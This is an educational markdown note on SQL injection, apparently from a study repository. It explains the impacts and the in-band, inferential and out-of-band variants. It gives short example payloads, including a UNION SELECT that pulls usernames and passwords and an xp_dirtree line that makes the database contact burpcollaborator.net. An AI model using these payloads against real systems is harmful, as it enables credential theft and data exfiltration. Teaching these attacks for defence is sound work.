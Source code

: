 **SQL Injection** - Vulnerability that consists of an attacker interfering with the SQL queries that an application makes to a database.


**Impact:**
	**Unauthorized access to sensitive data**  
		- ***C**onfidentiality* - SQLi can be used to view sensitive information, such as application usernames and passwords  
		- ***I**ntegrity* - SQLi can be used to alter data in the database  
		- ***A**vailability* - SQLi can be used to delete data in the database  
	**Remote code execution on the operating system**

**Types of SQL Injections** :
		**In-Band**:  
			- *Error* - Techniqe where you force the databe to generate an error giving information how things operate at the backend.  
			- *Union* -  Techniqe that leverages the union operator to combine the results of 2 queries into a single result set.  
		**Inferential**:  
			- Boolean - Asking the database true or false questions.  
			- Time - Causing the database to pause for specified time.  
		**Out-of-Band** 
			Occurs when the attacker is unable to use the same channel to launch the attack and gather the results of the attack. Usually relies on the ability of the application to make a network connection.

**Deep dive into the types of SQLi**:
	**In-Band SQLi**:
		- In-band SQLi occurs when the attacker uses the same communication channel to both launch the attack and gather the result of the attack.  
		- Retrieved data is presented directly in the application web page.  
		- Easier to exploit than other categories of SQLi  
		- Two common types of in-band SQLi  
			- **Error-based SQLi** 
				- Error-based SQLi is an in-band SQLi technique that forces the database to generate an error, giving the attacker information upon which to refine their injection.   
				- Example: 
					- **Input**: *blahblah.sth?id='*  
					- **Output**: *You have an error in your SQL sytax, check the manual that corresponds to your MySQL server version…*  
			- **Union-based SQLi**
				- Union-based SQLI is an in-band SQLi technique that leverages the UNION SQL operator to combine the results of two queries into a single result set.
				- Example:
					- **Input**: *blahblah.sth?id=' UNION SELECT username, password FROM users--*  
					- **Output**: 
						- carlos
						- admin
						- Alex
	**Inferential SQLi**:
		- SQLi vulnerability where there is no actual transfer of data via the web application.  
		- Just as dangerous as in-band SQL injection.  
		- Attacker able to reconstruct the information by sending particular requests and observingthe resulting behavior of the DB Server.  
		- Takes longer to exploit than in-band SQL injection.   
		- Two common types of blind SQLi:
			- **Boolean-based SQLi**:
				- Boolean-based SQLi is a blind SQLi technique that uses Boolean conditions to return a different result depending on whether the query returns a TRUE or FALSE result.  
			- **Time-based SQLi**:
				- Time-based SQLi is a blind SQLi technique that relies on the database pausing for a specified amount of time, then returning the results, indicating a successful SQL query execution.  
				- Example:
					- If the first character of the administrator’s hashed password is an ‘a’, wait for 10 seconds.
						 → response takes 10 seconds → first letter is ‘a’  
						 → response doesn’t take 10 seconds → first letter is not ‘a’
	**Out-of-Band SQLi**:
		- Vulnerability that consists of triggering an out-of-band network connection to a system that you control.  
		- Not common.  
		- A variety of protocols can be used (ex. DNS, HTTP)  
		- Example:
			- *'; exec master..xp_dirtree '//burpcollaborator.net/a'--*
